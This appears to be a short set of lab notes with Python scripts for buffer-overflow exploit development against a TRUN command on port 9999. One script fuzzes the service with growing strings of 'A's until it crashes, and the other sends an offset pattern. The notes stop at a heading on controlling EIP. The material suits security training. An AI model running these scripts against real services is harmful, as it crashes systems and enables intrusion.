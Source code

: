 ## Updated Fuzz script

```
#!/usr/bin/python3

import sys, socket
from time import sleep

buffer = "A" * 100

while True:
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('192.168.4.104',9999))

		payload = "TRUN /.:/" + buffer

		s.send((payload.encode()))
		s.close()
		sleep(1)
		buffer = buffer + "A"*100
	except:
		print ("Fuzzing crashed at %s bytes" % str(len(buffer)))
		sys.exit()

```

### Updated Finding The Offset Script

```
#!/usr/bin/python3

import sys, socket
from time import sleep

offset = "" #offset here

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.4.104',9999))

	payload = "TRUN /.:/" + offset

	s.send((payload.encode()))
	s.close()
except:
	print ("Error connecting to server")
	sys.exit()

```

## Updated Control The EIP
